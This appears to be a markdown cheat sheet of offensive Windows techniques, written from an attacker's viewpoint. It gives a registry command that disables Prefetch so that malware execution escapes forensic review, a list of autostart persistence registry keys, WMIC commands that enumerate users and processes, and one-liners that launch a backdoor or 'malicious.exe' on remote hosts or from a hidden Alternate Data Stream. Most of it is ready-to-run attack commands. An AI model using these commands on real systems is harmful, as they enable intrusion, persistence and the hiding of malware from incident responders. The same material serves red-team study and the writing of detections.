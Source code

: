 # :fu: Anti-Forensics

## Disabling Prefetch:

What are Prefetch Files? Prefetch files are great artifacts for forensic investigators trying to analyze applications that have been run on a system. Windows creates a prefetch file when an application is run from a particular location for the very first time. This is used to help speed up the loading of applications. But if we disable Prefetch files, we can hide execution patterns of our malware to hinder incident response.

The following command requires Administrator privileges, but disables Prefetch within the registry. While this tactic may appear anomalous to network defenders such as clearing Security Event Logs, it will obfuscate the malware's execution history.

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /f /d 0
```

## Windows AutoStart Persistence Locations:

Locations for automatically starting at system boot or user logon

```
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Windows Debug Tools-%LOCALAPPDATA%\
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
software\microsoft\windows\currentversion\run\microsoft windows html help
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\IAStorD
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

## WMIC Tricks and Tips:

Enumeration

```
wmic environment list
wmic useraccount get /ALL /format:csv
wmic process get caption,executablepath,commandline /format:csv
wmic qfe get description,installedOn /format:csv
# PowerShell
Invoke-WmiMethod -Path #{new_class} -Name create -ArgumentList #{process_to_execute}
```

Lateral Movement

```
wmic /node:<IP> /user:administrator process call create "cmd.exe /c <backdoor>"
```

Uninstall Program

```
wmic /node:"#{node}" product where "name like '#{product}%%'" call uninstall
```

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\notsus.txt:malicious.exe"
```

Execute malicious.exe on a remote system

```
wmic.exe /node:"192.168.0.99" process call create "malicious.exe"
```
